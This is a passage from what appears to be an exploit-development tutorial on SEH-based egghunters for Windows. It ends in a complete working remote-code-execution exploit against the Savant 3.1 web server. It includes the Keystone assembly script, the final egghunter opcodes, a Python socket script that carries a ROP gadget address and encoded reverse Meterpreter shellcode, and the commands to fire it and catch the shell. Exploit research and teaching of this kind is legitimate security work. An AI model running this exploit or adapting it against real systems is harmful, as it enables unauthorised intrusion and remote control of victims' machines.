    "       call build_exception_record;       "

            # -----------------------------------------------------------------
            # SEH exception handler
            # -----------------------------------------------------------------

            # ECX = 0x0C
    "       push 0x0c;                         "
    "       pop ecx;                           "

            # Retrieve pointer to CONTEXT structure
            #
            # Stack layout during exception dispatch:
            #   [ESP+0x0C] -> CONTEXT*
    "       mov eax, [esp+ecx];                "

            # Offset of EIP inside CONTEXT structure
    "       mov cl, 0xb8;                      "

            # Modify saved EIP:
            #
            # When an access violation occurs during REPE SCASD,
            # execution resumes at:
            #
            #     loop_inc_page:
            #         or bx, 0xfff
            #
            # This skips the invalid page.
    "       add dword ptr [eax+ecx], 0x06;     "

            # Save original return value
    "       pop eax;                           "

            # Clean up exception handler stack frame
    "       add esp, 0x10;                     "

            # Restore return value
    "       push eax;                          "

            # EXCEPTION_CONTINUE_EXECUTION
            # Return 0
    "       xor eax, eax;                      "

            # Return from exception handler
    "       ret;                               "
)

# Initialize Keystone in x86 32-bit mode
ks = Ks(KS_ARCH_X86, KS_MODE_32)

encoding, count = ks.asm(CODE)

print("Encoded %d instructions..." % count)

egghunter = ""
for dec in encoding:
    egghunter += "\\x{0:02x}".format(dec)

print('egghunter = ("' + egghunter + '")')
```



*Figure 23.1 - The updated Keystone script. The three new instructions at the
end of `build_exception_record` forge `StackBase` in `FS:[4]` to a value just
below the handler, ensuring check 4 passes.*

Generating the new opcode string:

```python
python3 sehegg.py
```



*Figure 23.2 - The updated egghunter produces a 69-byte null-free opcode
string. The forged `StackBase` write adds just six bytes to the original
sequence.*

> The final SEH egghunter opcodes:
>
> ```
> \xeb\x2a\x59\xb8\x77\x30\x30\x74\x51\x6a\xff\x31\xdb\x64\x89\x23
> \x83\xe9\x04\x83\xc3\x04\x64\x89\x0b\x6a\x02\x59\x89\xdf\xf3\xaf
> \x75\x07\xff\xe7\x66\x81\xcb\xff\x0f\x43\xeb\xed\xe8\xd1\xff\xff
> \xff\x6a\x0c\x59\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06\x58\x83\xc4
> \x10\x50\x31\xc0\xc3
> ```
{: .prompt-info }

## 24. Gaining a Shell

With the StackBase forge in place, all four `RtlDispatchException` checks pass,
the handler is called on every page fault, and `REPE SCASD` can safely traverse
the entire virtual address space. The rest of the exploit - the method-field jump,
the `POP EAX; RET` gadget, and the heap-staged shellcode - are unchanged.

The updated egghunter replaces the previous one in the exploit. Everything
else - the Method-field jump, the `POP EAX; RET` gadget, the heap-staged egg -
stays the same. Only the egghunter bytes change.

```python
import socket
from struct import pack
import sys

try:
    #Badchars: \x00\x0a\x0d\x20\x25
    server = sys.argv[1]
    port = 8000
    size = 260
    method = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /" # xor ecx, ecx; test ecx,ecx; jz 0x17
    egghunter = (b"\x90" * 8) + b"\xeb\x2a\x59\xb8\x77\x30\x30\x74\x51\x6a\xff\x31\xdb\x64\x89\x23\x83\xe9\x04\x83\xc3\x04\x64\x89\x0b\x6a\x02\x59\x89\xdf\xf3\xaf\x75\x07\xff\xe7\x66\x81\xcb\xff\x0f\x43\xeb\xed\xe8\xd1\xff\xff\xff\x6a\x0c\x59\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06\x58\x83\xc4\x10\x50\x31\xc0\xc3"
    filler = b"A" * (253 - len(egghunter))
    EIP = pack("<L",(0x418674)) # POP EAX; RET
    shellcode =  b""
    shellcode += b"\xbe\x81\x4a\x93\x05\xdd\xc0\xd9\x74\x24\xf4"
    shellcode += b"\x58\x33\xc9\xb1\x5e\x31\x70\x15\x83\xc0\x04"
    shellcode += b"\x03\x70\x11\xe2\x74\xb6\x7b\x8a\x76\x47\x7c"
    shellcode += b"\xf5\x47\x95\x18\x7e\xf5\x29\x6a\xd2\xf5\xc2"
    shellcode += b"\x3e\xc7\x8c\x30\x35\x95\xa6\x8b\xb5\x55\x01"
    shellcode += b"\xa1\x6f\x5b\xad\x9a\x4c\xfa\x51\xe1\x80\xdc"
    shellcode += b"\x68\x2a\xd5\x1d\xad\xfc\x93\xf2\x63\xa8\xd0"
    shellcode += b"\x5f\x93\xdd\xa5\x63\x92\x31\xa2\xdc\xec\x34"
    shellcode += b"\x75\xa8\x40\x36\xa6\x01\xd3\x70\x5e\x29\xbb"
    shellcode += b"\xa0\x5f\xfe\xbe\x68\x2b\x3c\x89\xe1\xe0\xb7"
    shellcode += b"\x08\x20\x39\x37\x3b\x0c\xfb\x08\x36\x20\xfd"
    shellcode += b"\x51\x70\xd8\x8b\xa9\x83\x65\x8c\x69\xfe\xb1"
    shellcode += b"\x19\x6e\x58\x31\xb9\x4a\x59\x96\x5c\x18\x55"
    shellcode += b"\x53\x2a\x46\x79\x62\xff\xfc\x85\xef\xfe\xd2"
    shellcode += b"\x0c\xab\x24\xf7\x55\x6f\x44\xae\x33\xde\x79"
    shellcode += b"\xb0\x9b\xbf\xdf\xba\x09\xa9\x60\x43\xd2\xd6"
    shellcode += b"\x3c\xd4\x1f\x1b\xbf\x24\x37\x2c\xcc\x16\x98"
    shellcode += b"\x86\x5a\x1b\x51\x01\x9c\x2a\x75\xb2\x72\x94"
    shellcode += b"\x15\x4c\x73\xe5\x3c\x8b\x27\xb5\x56\x3a\x48"
    shellcode += b"\x5e\xa6\xc3\x9d\xcb\xac\x53\x14\x0c\xb2\xa7"
    shellcode += b"\x40\x0e\xb2\xa6\x2b\x87\x54\xf8\x1b\xc8\xc8"
    shellcode += b"\xb9\xcb\xa8\xb8\x51\x06\x27\xe7\x42\x29\xed"
    shellcode += b"\x80\xe9\xc6\x58\xf9\x85\x7f\xc1\x71\x37\x7f"
    shellcode += b"\xdf\xfc\x77\x0b\xea\x01\x39\xfc\x9f\x11\x2e"
    shellcode += b"\x9b\x5f\xe9\xaf\x0e\x60\x83\xab\x98\x37\x3b"
    shellcode += b"\xb6\xfd\x70\xe4\x49\x28\x03\xe2\xb6\xad\x32"
    shellcode += b"\x99\x81\x3b\x7b\xf5\xed\xab\x7b\x05\xb8\xa1"
    shellcode += b"\x7b\x6d\x1c\x92\x2f\x88\x63\x0f\x5c\x01\xf6"
    shellcode += b"\xb0\x35\xf6\x51\xd9\xbb\x21\x95\x46\x43\x04"
    shellcode += b"\xa5\x81\xbb\xdb\x82\x29\xd4\x23\x93\xc9\x24"
    shellcode += b"\x49\x13\x9a\x4c\x86\x3c\x15\xbd\x67\x97\x7e"
    shellcode += b"\xd5\xe2\x76\xcc\x44\xf3\x52\x90\xd8\xf4\x51"
    shellcode += b"\x09\xea\x8f\x1a\xae\x0b\x70\x33\xcb\x0b\x71"
    shellcode += b"\x3b\xed\x30\xa4\x02\x9b\x77\x75\x31\x84\x65"
    shellcode += b"\x53\x4c\x2d\x30\x36\xed\x30\xc3\xed\x32\x4d"
    shellcode += b"\x40\x07\xcb\xaa\x58\x62\xce\xf7\xde\x9f\xa2"
    shellcode += b"\x68\x8b\x9f\x11\x88\x9e"
    egg = b"w00tw00t" + shellcode + b"D" * (430 - len(shellcode))
    payload = method + egghunter + filler + EIP + b"\r\n\r\n" + egg

    print("[+] Sending Evil BUffer...")
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((server,port))
    s.send(payload)
    s.recv(1024)
    s.close()
    print("[+] Evil Buffer Sent...")

except Exception as e:
    print(f"[!] Could Not Connect: {e}")
    sys.exit(0)
```



*Figure 24.1 - The complete exploit. The only change from the previous iteration
is the six extra bytes added to the egghunter that forge `StackBase` in
`FS:[4]` before entering the search loop.*

A Metasploit multi/handler is started to catch the reverse Meterpreter:

```python
exploit
```



*Figure 24.2 - The handler is listening on the configured LHOST and LPORT,
ready to receive the staged reverse shell.*

The exploit is fired:

```python
python3 eggh.py 10.0.2.5
```



*Figure 24.3 - The script connects, transmits the full payload, and closes
cleanly. On the target, the server crashes and executes the egghunter, which
scans the heap, finds the egg prefix, and jumps into the shellcode.*

The Meterpreter session opens:



*Figure 24.4 - A Meterpreter session is established. The SEH-based egghunter - with its forged `StackBase` - passed all four `RtlDispatchException` checks, scanned the heap, found `w00tw00t`, and jumped to the Meterpreter payload. Remote code execution is achieved without a static address and without a hardcoded syscall number.*

> The complete exploitation chain:
>
> 1. **Crash** - oversized URL path overflows a stack buffer in Savant 3.1
> 2. **Method redirect** - conditional jump in the Method field routes the
>    instruction pointer into the URL buffer at startup
> 3. **Egghunter** - 69-byte SEH egghunter with forged `StackBase` scans all
>    mapped memory
> 4. **Heap staging** - shellcode prefixed with `w00tw00t` placed in HTTP body;
>    Windows heap manager copies it to a predictable region
> 5. **Shell** - egghunter finds the egg, jumps to the shellcode, Meterpreter
>    connects back
{: .prompt-tip }

## Closing Thoughts

Egghunters occupy a specific and important niche in exploit development: they
solve the *space problem* without requiring additional vulnerabilities or
more sophisticated primitives. The technique dates back to skape's 2004 paper
and the core idea has changed very little — but the implementation details
have changed considerably as Windows evolved.

The two egghunters built in this article illustrate that gap clearly:

- The **syscall-based egghunter** is smaller (32 bytes) but fragile: the
  `NtAccessCheckAndAuditAlarm` index has moved across every major Windows
  release. On a new target you must first discover the correct index and
  then encode it without null bytes. The `NEG` arithmetic trick shown here
  works for `0x1C8` but needs to be recalculated for any other index.

- The **SEH-based egghunter** is larger (69 bytes after the `StackBase` forge)
  but self-contained: it installs its own exception handler using nothing but
  stack writes and segment-register tricks, making it completely independent
  of the syscall table. The `RtlDispatchException` validation bypass — forging
  `StackBase` in `FS:[4]` — is the non-obvious piece that published versions
  of this egghunter miss, and it is what this article adds to the historical
  record.

Both techniques share a dependency on the heap layout being stable enough that
the egghunter terminates in a reasonable time. On heavily loaded servers or
systems with large anonymous memory maps the scan can take noticeably longer.
In practice, heap staging through a second channel in the same request is
reliable because the HTTP body is parsed before the crash is triggered.

The broader lesson is that memory-corruption exploitation is not a single skill
but a collection of independent sub-problems: finding the overflow, controlling
EIP under bad-character constraints, staging payload data through available
protocol fields, navigating an unknown memory layout at runtime, and bypassing
OS validation logic. Egghunters are one solution to the staging and navigation
sub-problems — elegant, compact, and still effective when the alternatives are
unavailable.
{: .prompt-tip }


---

## References

- [skape - Safely Searching Process Virtual Address Space (2004)](https://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)
- [Keystone Engine](https://www.keystone-engine.org/)
- [Microsoft - NT Thread Information Block](https://learn.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-teb)